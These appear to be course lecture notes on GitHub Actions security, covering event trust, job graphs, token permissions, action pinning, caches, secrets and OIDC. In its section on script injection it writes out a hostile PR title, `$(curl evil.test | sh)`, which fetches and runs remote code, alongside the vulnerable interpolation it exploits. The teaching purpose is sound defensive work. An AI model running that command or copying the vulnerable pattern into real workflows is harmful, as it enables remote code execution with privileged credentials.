



# Day 1 — Execution Model, Composition, and the Trust Boundary

**Prerequisites:** You can read production YAML and you already ship Python or R.
**Activity:** [`../activities/day-01-execution-and-trust-lab.md`](../activities/day-01-execution-and-trust-lab.md)

**Thesis:** Actions is a distributed job scheduler with a limited expression language, three action runtimes, and a security model. You need to understand the security model before you write anything that deploys.

---

## 1. What you are actually programming

A workflow file is not a script. It is a **declaration** that you submit to a multi-tenant scheduler. When an event matches a workflow's triggers, the scheduler admits a *run*, builds a **job DAG**, assigns each ready job to a **runner**, and executes that job's steps in order.

| Object | Lifetime | Isolation | What it owns |
|---|---|---|---|
| **Workflow run** | One admitted event | Shared concurrency domain | The DAG, the event payload, run-level env |
| **Job** | Until its steps finish | Fresh workspace on GitHub-hosted runners; *not* guaranteed on self-hosted | `needs`, `if`, `permissions`, `environment`, `concurrency` |
| **Step** | Seconds to minutes | Shares the workspace with sibling steps | `id`, outputs, `if`, the `${{ }}` substitution done *before* `run:` |
| **Action** | The step that `uses:` it | Runs inside the job: composite, JS, or Docker | Its own inputs/outputs. **Not** a security boundary |



---

## 2. Event ingress: which YAML runs, and whose code

An event arrives, and the control plane reads the workflow files from the **ref that owns the workflow definition**. If you don't know which ref supplied the YAML, you don't know whose code you just gave privileges to.

| Event | Definition ref | Fork PR token / secrets |
|---|---|---|
| `push` | The pushed SHA | N/A |
| `pull_request` | PR merge ref | Read-only, **no secrets** |
| `pull_request_target` | **Base branch** | Write-capable, **secrets available** |
| `merge_group` | The queued merge commit | Privileged |
| `workflow_dispatch` | The selected ref | Privileged |
| `schedule` | Default branch only | Privileged |
| `workflow_run` | Default branch | Privileged. **Dangerous** if you trust the triggering run's artifacts |
| `issue_comment` | Default branch | Privileged, and fires for **any GitHub account** on a public repo |

`pull_request_target` and `workflow_run` are the two events that most often turn into incidents. Both run **trusted** workflow code while **untrusted** data is within reach.

Filter facts that matter:

- `branches` matches the **base** for PRs and the **destination** for pushes. You cannot combine `paths` with `paths-ignore` (or `branches` with `branches-ignore`) on one event. Use `!` negation inside the positive form instead.
- **Path filters are a cost control, not a build graph.** They miss shared files you forgot to list, and the changed-file set differs between `pull_request` and `push`. Day 3 replaces them with affected-target computation.
- `schedule` is UTC, best-effort, and runs only on the default branch. Missed ticks are not retried. Add jitter to the minute (`17 4 * * 1-5`) so you don't run on the hour with every other repo.

---

## 3. The job DAG

Jobs are the unit of parallelism. Steps within a job are strictly sequential on one runner.

```yaml
jobs:
  lint:   { runs-on: ubuntu-24.04, steps: [ { run: ruff check . } ] }
  test:   { needs: lint, runs-on: ubuntu-24.04, steps: [ { run: pytest } ] }
  notify:
    needs: [lint, test]
    if: always() && !cancelled()
    runs-on: ubuntu-24.04
    steps:
      - run: echo "lint=${{ needs.lint.result }} test=${{ needs.test.result }}"
```

- `needs` is both **ordering** and **dataflow**: `needs.<id>.result` ∈ `{success, failure, cancelled, skipped}`, and `needs.<id>.outputs.<name>`.
- **Skip contagion:** a job whose `needs` contains a skipped job is skipped too, unless its own `if:` says otherwise. This is the classic "why didn't notify run?" bug. Make optional work a leaf, or give every aggregator `if: always() && !cancelled()` and branch on `needs.*.result` yourself.
- **Status functions change scope.** In a *job* `if:`, `failure()` looks at the `needs` jobs. In a *step* `if:`, it looks at earlier steps in the same job. A skipped dependency is neither `success()` nor `failure()`.
- **Everything that crosses a job boundary is a string.** `if: needs.detect.outputs.ok == true` is always false; write `== 'true'`. To pass a matrix, send a JSON string and rehydrate it with `fromJSON`.

```yaml
detect:
  outputs: { matrix: "${{ steps.s.outputs.matrix }}" }
  steps:
    - id: s
      run: |
        python - <<'PY'
        import json, os
        with open(os.environ["GITHUB_OUTPUT"], "a") as fh:
            fh.write("matrix=" + json.dumps({"pkg": ["alpha", "beta"]}) + "\n")
        PY
test:
  needs: detect
  strategy: { matrix: "${{ fromJSON(needs.detect.outputs.matrix) }}" }
```

---

## 4. Concurrency domains

`concurrency` is a **mutex with optional cancellation**, keyed on a string. It is not a fair queue.

```yaml
concurrency:
  group: ${{ github.workflow }}-${{ github.event.pull_request.number || github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}
```

1. **Groups are repository-scoped.** Two workflow files that resolve to the same string share one lock. That's how you make `ci.yml` and `deploy.yml` mutually exclusive, and it's also how a copy-pasted `group: ci` serializes your whole repo.
2. **Never cancel `main`, `merge_group`, or deploys.** A cancelled Terraform apply or half-published release is worse than a slow one.
3. A cancelled job reports `cancelled`, not `failure`, so `if: failure()` downstream will not fire.
4. `github.head_ref` is empty on `push`. A group built from it collides across every branch.

Cancel-in-progress cuts queue time for people waiting on PR results, but it **wastes** the minutes the cancelled run already used. Decide which of those you're optimizing for.

---

## 5. Expressions and the injection rule

`${{ }}` is substituted by the control plane **before the shell sees the step**. It is a small, weakly typed language: no regex, no arithmetic, and `contains` does substring matching on strings but element matching on arrays. To check for a label, use `contains(github.event.pull_request.labels.*.name, 'x')`, not the title.

```yaml
- run: echo ${{ github.event.pull_request.title }}   # INJECTION
```

If the PR title is `$(curl evil.test | sh)`, the runner receives `echo $(curl evil.test | sh)` and bash executes it. The fix is structural. **Never interpolate untrusted context into `run:`.** Pass it through `env:` so it reaches the script as data:

```yaml
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: python -c 'import os; print(os.environ["TITLE"])'
```

The title still lands in the environment, but it can no longer change the *shape* of the script. In a `pull_request_target` or `workflow_run` workflow, this mistake is a remote code execution with privileged credentials.

`hashFiles()` runs on the runner after checkout. It belongs in cache keys and does nothing useful in a job-level `if:`.

---

## 6. Permissions: the token is a design decision

Every job gets a `GITHUB_TOKEN`. The default scope is an org setting you don't control, so **never rely on it**:

```yaml
permissions: {}            # workflow default: nothing
jobs:
  test:
    permissions: { contents: read }
  comment:
    permissions: { contents: read, pull-requests: write }
  deploy:
    environment: production
    permissions: { contents: read, id-token: write }
```

- `id-token: write` gives no repository write access. It lets the job request an OIDC JWT, which keyless deploys and trusted publishing need.
- Fork `pull_request` runs get a read-only token and **no secrets**, whatever you ask for. Don't "fix" this by switching to `pull_request_target`.
- `environment:` is a **gate**, not a permission. It adds reviewers, wait timers, and branch policies. The token defines what a job *could* do; the environment decides whether the job *may start*.

---

## 7. Three action runtimes, one blast radius

| Type | Executes as | Cold start | Can read your secrets? |
|---|---|---|---|
| **Composite** | Steps spliced into your job | ~0 | Yes |
| **JavaScript** | `node` process on the runner | ~1 s | Yes (`process.env`) |
| **Docker** | Container, workspace bind-mounted read-write | 10–60 s | Yes |

**There is no sandbox inside a job.** A third-party action in step 3 can read a secret you pass to step 5, exfiltrate the token, or rewrite files that a later step publishes. Everything else in this section follows from that.

### 7.1 Composite action vs reusable workflow

**A composite action is a step sequence. A reusable workflow is a job graph.**

| Capability | Composite action | Reusable workflow (`workflow_call`) |
|---|---|---|
| Own `runs-on`, `permissions`, `environment`, matrix | No | Yes (permissions can only **shrink**) |
| `secrets` context | No. Pass values as inputs | Yes (explicit mapping or `inherit`) |
| Typed inputs | No, all strings | Yes (`string`, `boolean`, `number`) |
| Shows as separate checks | No | Yes: `<caller-job> / <called-job>` |

Composite gotchas: `shell:` is mandatory on every `run:` step, outputs need an explicit `value:` mapping, and writes to `$GITHUB_ENV` leak into the calling job. A local `uses: ./...` only works after checkout.

Reusable workflow gotchas: the calling job can contain *only* `uses/with/secrets/permissions/needs/if/strategy`; caller `env` doesn't cross; nesting is capped at 4 levels, and in practice you should stop at 3. **`secrets: inherit` sends every secret the caller can see.** Use explicit mapping.

### 7.2 Pinning

`@v3` is a mutable tag. Whoever can retag it can run code in your job with your token. In any job that holds a secret, a write scope, or deploys, pin a full SHA and add the version as a comment:

```yaml
- uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2
```

Resolve SHAs yourself (`gh api repos/actions/checkout/git/ref/tags/v4.2.2 --jq .object.sha`) and never copy one from a blog, or from this lecture. Dependabot (`package-ecosystem: github-actions`) understands SHA pins and opens PRs to bump them. Pinning changes the default from "silently accept upstream" to "review a PR". It does **not** pin what that action itself pulls in, so read the `action.yml` of anything you use in a privileged job.

### 7.3 Workspace, artifact, cache

| Mechanism | Scope | Mutable by other runs? | Correct use |
|---|---|---|---|
| Workspace | One job | No | Hand-off between steps |
| Artifact (v4) | Run, fetchable cross-run by API | No (immutable) | Build outputs you promote |
| Cache | Branch-scoped; default branch readable by all | **Yes. It can be poisoned** | Dependency trees you can rebuild |

The cache contract: **if the cache is empty, stale, or poisoned, the job must still be correct**, just slower. Build the key from everything that determines the content: `H(lockfile) ‖ os ‖ arch ‖ toolchain`. Putting `github.ref` in a dependency key is a bug. Only cache when `p_hit · (T_install − T_restore) > (1 − p_hit) · T_save`.

---

## 8. Secrets, and getting rid of them

**Tiers:** org → repo → **environment**. Environment secrets are the only tier with a gate in front of them, so production credentials belong there. `vars` are not masked and are not secret.

**Masking is a log filter, not a boundary.** Base64-encoding or splitting a value defeats it, values fetched at runtime need `::add-mask::`, and masking does nothing about network exfiltration.

**Where secrets leak:** interpolation into `run:`, workflow-level `env:` (every step and every third-party action sees it, so scope secrets to the one step that needs them), `secrets: inherit`, debug logging, and broad artifact or cache `path:` globs that pick up `.netrc` or `.docker/config.json`.

**Best of all, don't hold the secret at all. Use OIDC:**



All of the security lives in the **trust policy's `sub` condition**. Use `StringEquals` on `repo:ORG/REPO:environment:production`. `StringLike` with `repo:my-org/*:*` is a backdoor: any repo and any branch can assume your production role.

---

## 9. Designing the trust boundary

A workflow author asks "does this run?" A platform designer asks four questions:

1. **Who can cause this code to execute?**
2. **What credentials can that execution reach?**
3. **What is the smallest interface that serves every consumer?**
4. **How do I change it later without migrating 40 repositories?**

### 9.1 The rule

> **Untrusted code and credentials never occupy the same job.**



A healthy design has **exactly one** crossing, and it carries data, not code. Legitimate `pull_request_target` workflows never check out PR code. A `workflow_run` consumer never executes, sources, or `chmod +x`es a downloaded artifact. It caps the size, parses the JSON, coerces every field, and validates the PR number against `github.event.workflow_run.pull_requests`, because the attacker chooses that number.

### 9.2 Walk the five canonical attacks

| # | Attack | Mitigation |
|---|---|---|
| A | Script injection (`${{ github.event.* }}` in `run:`) | `env:` + `os.environ` |
| B | Privileged checkout of untrusted code | Forbid structurally; lint for it |
| C | Compromised action | SHA pin, allow-list, minimal `permissions:` |
| D | Cache poisoning | Never restore caches in privileged jobs |
| E | Artifact trust | Parse as data; bound size and types |

Write down the **residual risk** too. For example, a compromised first-party action release defeats SHA pinning at the moment you bump it. You accept that and rely on reviewed Dependabot PRs. A threat model that claims full coverage is dishonest.

### 9.3 Library API rules

- **Inputs are API surface, so budget them.** Language versions, coverage floor, opt-in integration tests, and runner label make good inputs. Linter choice, action SHAs, and token permissions are hardcoded conventions. **Security-relevant settings are never inputs.** Ask: *if a consumer set this to its worst value, would that be bad for them or bad for the org?* If it's bad for the org, don't expose it.
- **Defaults are the policy,** because most consumers never override them.
- **The gate check name is your contract with branch protection.** Use one aggregator job with `if: always() && !cancelled()`. Write its logic in Python reading `toJSON(needs)`, make it fail on an empty matrix unless emptiness is declared legal, and never rename it.
- **Versioning:** consumers pin your library by SHA. Treat any of these as a major version: removing or renaming an input, renaming a job that could be a required check, needing a new caller permission, or **tightening a default**, such as raising the coverage floor. Deprecate in stages: announce, emit `::warning::`, measure who is still affected, nag, fail soft, then remove in the major version.

### 9.4 Cost multiplies across consumers

Thirty wasted seconds × 40 repos × 30 pushes a day ≈ 10 runner-hours a day. The levers, from biggest effect to smallest: **matrix size**, then **number of runs** (cancel-in-progress, path filters), then **setup time** (caching). Make the expensive dimensions opt-in.

---

## 10. Review checklist

| # | Check | Automatic fail |
|---|---|---|
| 1 | `permissions: {}` at workflow scope, reopened per job | `write-all` |
| 2 | SHA pins in every credential-holding job | `@main` / `@v3` there |
| 3 | No `${{ github.event.* }}` in `run:` | Any occurrence |
| 4 | `pull_request_target` never checks out PR code | Head checkout |
| 5 | `workflow_run` artifacts parsed, never executed | Any exec |
| 6 | Secrets scoped to steps; no `secrets: inherit` to third parties | Workflow-level secret env |
| 7 | Cache key = lockfile + OS + arch + toolchain | `github.ref` in a dependency key |
| 8 | Production credentials in a protected environment | Repo-level production secret |
| 9 | OIDC `StringEquals` bound to an environment | `repo:org/*:*` |
| 10 | One stable gate check that survives an empty matrix | Matrix cells as required checks |

**Before Day 2 you should be able to:** say which ref supplied the YAML for any event; write a concurrency group that can't cancel `main`; move any untrusted interpolation into `env:`; classify any job as trusted or untrusted and name the credentials it can reach; and explain why a setting should be an input or a hardcoded convention.
